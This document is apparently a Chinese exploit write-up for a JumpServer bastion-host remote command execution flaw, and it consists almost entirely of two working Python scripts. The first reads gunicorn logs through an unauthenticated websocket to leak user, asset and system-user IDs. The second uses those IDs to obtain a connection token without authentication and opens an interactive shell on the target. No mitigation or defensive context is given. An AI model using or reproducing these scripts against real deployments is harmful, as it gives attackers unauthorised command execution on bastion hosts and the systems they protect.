

# Jumpserver 远程执行漏洞

影响版本：  
-  JumpServer堡垒机＜v2.6.2版本

- JumpServer堡垒机＜v2.5.4版本

- JumpServer堡垒机＜v2.4.5版本

Step 1 获取assset，system_user，user 三个id的值：
```
import asyncio
import re

import websockets
import json

url = "/ws/ops/tasks/log/"

async def main_logic(t):
    print("#######start ws")
    async with websockets.connect(t) as client:
        await client.send(json.dumps({"task":"/opt/jumpserver/logs/gunicorn"}))
        while True:
            ret = json.loads(await client.recv())
            print(ret["message"], end="")

if __name__ == "__main__":
    host = "http://192.168.217.159:8080"
    target = host.replace("https://", "wss://").replace("http://", "ws://") + url
    print("target: %s" % (target,))
    asyncio.get_event_loop().run_until_complete(main_logic(target))
```


Step 2     反弹Shell                                    ：

```

import os
import asyncio
import aioconsole
import websockets
import requests
import json

url = "/api/v1/authentication/connection-token/?user-only=1"


def get_celery_task_log_path(task_id):
    task_id = str(task_id)
    rel_path = os.path.join(task_id[0], task_id[1], task_id + ".log")
    path = os.path.join("/opt/jumpserver/", rel_path)
    return path


async def send_msg(websocket, _text):
    if _text == "exit":
        print(f'you have enter "exit", goodbye')
        await websocket.close(reason="user exit")
        return False
    await websocket.send(_text)


async def send_loop(ws, session_id):
    while True:
        cmdline = await aioconsole.ainput()
        await send_msg(
            ws,
            json.dumps(
                {"id": session_id, "type": "TERMINAL_DATA", "data": cmdline + "\n"}
            ),
        )


async def recv_loop(ws):
    while True:
        recv_text = await ws.recv()
        ret = json.loads(recv_text)
        if ret.get("type", "TERMINAL_DATA"):
            await aioconsole.aprint(ret["data"], end="")


# 客户端主逻辑
async def main_logic():
    print("#######start ws")
    async with websockets.connect(target) as client:
        recv_text = await client.recv()
        print(f"{recv_text}")
        session_id = json.loads(recv_text)["id"]
        print("get ws id:" + session_id)
        print("###############")
        print("init ws")
        print("###############")
        inittext = json.dumps(
            {
                "id": session_id,
                "type": "TERMINAL_INIT",
                "data": '{"cols":164,"rows":17}',
            }
        )
        await send_msg(client, inittext)
        await asyncio.gather(recv_loop(client), send_loop(client, session_id))


if __name__ == "__main__":
    host = "http://192.168.217.159:8080"
    cmd = "whoami"
    if host[-1] == "/":
        host = host[:-1]
    print(host)
    data = {"user": "4e98541f-a9d9-4d4a-8e62-aab3a3dcc503", "asset": "d946e264-d139-4bb4-a375-be8c141587a0",
            "system_user": "2683a326-a6f4-41d3-8590-455fd3990202"}
    print("##################")
    print("get token url:%s" % (host + url,))
    print("##################")
    res = requests.post(host + url, json=data)
    token = res.json()["token"]
    print("token:%s", (token,))
    print("##################")
    target = (
        "ws://" + host.replace("http://", "") + "/koko/ws/token/?target_id=" + token
    )
    print("target ws:%s" % (target,))
    asyncio.get_event_loop().run_until_complete(main_logic())
```

成功：

- 


